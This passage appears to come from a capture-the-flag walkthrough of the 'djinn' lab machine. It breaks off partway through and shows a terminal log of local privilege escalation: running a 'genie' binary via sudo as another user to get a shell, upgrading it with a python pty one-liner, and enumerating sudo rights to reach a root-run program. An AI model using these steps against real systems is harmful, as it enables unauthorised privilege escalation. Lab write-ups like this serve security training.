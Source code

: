 genie -cmd whoami

my man!!

\$ whoami

whoami

nitish

\$ exit

exit

You are a noob hacker!!

### Low Privilege Exploitation (sam)

Next, executing it as user sam, gives us shell as sam user.

nitish\@djinn:/opt/80\$ sudo -u sam genie -cmd whoami

sudo -u sam genie -cmd whoami

my man!!

\$ whoami

whoami

sam

Upgrading the shell to TTY.

\$ python -c "import pty;pty.spawn('/bin/bash')"

python -c "import pty;pty.spawn('/bin/bash')"

### Further Enumeration.

sam\@djinn:/home/sam\$ sudo -l

sudo -l

Matching Defaults entries for sam on djinn:

env_reset, mail_badpass,

secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin

User sam may run the following commands on djinn:

(root) NOPASSWD: /root/lago

Looks like another executable. Let's try and run it.

sam\@djinn:/home/sam\$ sudo /root/lago

sudo /root/lago

What do you want to do ?

1 - Be naughty
